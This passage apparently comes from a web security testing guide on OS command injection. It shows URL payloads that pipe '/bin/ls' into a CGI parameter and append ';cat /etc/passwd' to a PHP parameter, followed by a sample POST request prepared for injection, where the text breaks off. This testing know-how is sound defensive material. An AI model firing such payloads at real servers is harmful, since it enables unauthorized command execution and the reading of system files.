 http://sensitive/cgi-bin/userData.pl?doc=user1.txt  

  
Example URL modified:  

http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|  

  
This will execute the command “/bin/ls”.  

  
Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. %3B is url encoded and decodes to semicolon  

Example:  

http://sensitive/something.php?dir=%3Bcat%20/etc/passwd  

  
**Example**  
Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up WebScarab, you can obtain a POST HTTP like the following:

…POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf

  
In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following:

POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33
